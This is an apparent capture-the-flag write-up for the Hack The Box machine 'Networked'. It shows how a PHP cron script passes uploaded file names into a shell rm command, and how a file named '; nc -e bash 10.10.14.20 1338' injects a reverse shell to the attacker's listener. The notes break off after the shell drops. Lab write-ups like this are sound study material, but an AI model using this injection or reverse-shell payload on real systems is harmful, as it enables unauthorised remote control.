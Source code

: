 So we have a cron running this php script.

The script uses lib.php

it finds all files in /var/www/html/uploads/

for each file it runs some checks, and if the check fails. the file is written to /tmp/attack.log which is deleted.

the original file is then removed with exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");

Where $path is '/var/www/html/uploads/' and $value is the name of the file.

We can abuse this by naming a file with `;` which ends the command after `nohup /bin/rm -f $path`

Then we can run additional commands. for example create a file named `; whoami`

Then the full command would be: `nohup /bin/rm -f /var/www/html/uploads/; whoami > /dev/null 2>&1 &`

`> /dev/null 2>&1 &` redirects the output to null. So we wont get any response. But, we can still run commands.

So we can create a file in /var/www/html/uploads/ with a name like `; nc -e bash 10.10.14.20 1338`
 
And the command should be ran.


```
touch '; nc -e bash 10.10.14.20 1338'
bash-4.2$ ls
ls
10_10_14_20.akamaihd.net.jpeg  127_0_0_2.png
10_10_14_20.jpg                127_0_0_3.png
10_10_14_20.new.jpeg           127_0_0_4.png
10_10_14_20.new2.php.jpeg      ; nc -e bash 10.10.14.20 1338
10_10_14_20.php.jpg            index.html
127_0_0_1.png
bash-4.2$ 

```

On the listener:

```
root@kali:/home/kali/htb/Networked# nc -nlvp 1338
Listening on 0.0.0.0 1338
Connection received on 10.129.112.184 59114
root@kali:/home/kali/htb/Networked# 

```


I got thrown out immediately.

I looked for some options:

https://www.commandlinux.com/man-page/man1/nc.1.html

```
-c string
    specify shell commands to exec after connect (use with caution). The string is passed to /bin/sh -c for execution. See the -e option if you don't have a working /bin/sh (Note that POSIX-conformant system must have one). 
-e filename
    specify filename to exec after connect (use with caution). See the -c option for enhanced functionality. 

Read more at: https://www.commandlinux.com/man-page/man1/nc.1.html

```
